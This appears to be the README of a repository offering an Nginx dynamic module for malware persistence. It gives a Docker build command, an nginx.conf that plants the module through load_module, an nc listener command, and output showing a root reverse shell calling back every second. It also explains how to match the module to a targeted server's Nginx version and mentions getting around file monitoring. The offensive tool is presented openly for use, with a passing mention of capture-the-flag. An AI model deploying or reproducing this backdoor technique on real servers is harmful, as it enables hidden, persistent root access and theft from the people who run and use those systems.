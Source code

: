 # this-is-not-a-rootkit-nginx-persistence
An Nginx module for persistent malware

# FAQ

1. Why this?

> That's just another potential technique for malware persistence. It's not magic, and if your targeted system is careful enough to monitor file modifications on Nginx configurations, you will be detected unless you bypass that.

2. How does it work?

> We simply add a [dynamic module](https://www.nginx.com/products/nginx/modules/) a to Nginx process. Specifically, one would upload the Nginx dynamic module with your malicius code, and use the `load_module` instruction in Nginx configuration.

3. What can I do with this?

Pretty much use it in Capture The Flag or something, there is a chance no one will notice it. Currently, and no promises made, this is only a module template with a reverse shell from [PayloadAllTheThings Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#c), if you read the code at [persistence-module/ngx_http_server_module.c](/persistence-module/ngx_http_server_module.c), you will probably agree with me. Now that you understand that, and know how to code C, you can do whatever you want, however you want!

# How to run

I should hope you are able to read the code, dear developer, and be encouraged to read it, specially the module source code at persistence-module/ngx_http_server_module.c](/persistence-module/ngx_http_server_module.c). Now that you understand it superficially, you can compile the dynamic module using Docker! Run the following command:

```bash
docker compose run builder
```

You will notice a directory called `objs` created in your current directory. The dynamic module will be located at `objs/ngx_http_server_module.so`.

Now, add `load_module` instruction into your Nginx configuration, like this example:

```conf
user  nginx;
worker_processes  auto;

load_module /opt/objs/ngx_http_server_module.so; # <--- Change the path to the module

error_log  /var/log/nginx/error.log notice;
pid        /var/run/nginx.pid;


events {
    worker_connections  1024;
}


http {
    include       /etc/nginx/mime.types;
    default_type  application/octet-stream;

    log_format  main  '$remote_addr - $remote_user [$time_local] "$request" '
                      '$status $body_bytes_sent "$http_referer" '
                      '"$http_user_agent" "$http_x_forwarded_for"';

    access_log  /var/log/nginx/access.log  main;

    sendfile        on;
    #tcp_nopush     on;

    keepalive_timeout  65;

    #gzip  on;

    include /etc/nginx/conf.d/*.conf;
}
```

Now what? If you carefully read the code, you will see that the module code is a simple reverse shell on `localhost` port 9001. If you start the module and start a listener, you will receive a reverse shell as root every second:

```bash
$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 40414
id
uid=0(root) gid=0(root) groups=0(root)
```

# Troubleshooting

```conf
2023/05/15 03:03:08 [emerg] 666#666: module "/ngx_http_server_module.so" version 1024000 instead of 1023004 in /etc/nginx/nginx.conf:5
nginx: [emerg] module "/ngx_http_server_module.so" version 1024000 instead of 1023004 in /etc/nginx/nginx.conf:5
```

By default, we compile the dynamic module on Nginx version 1.24 (see Dockerfile). You must compile the module for the version of your targeted Nginx version.

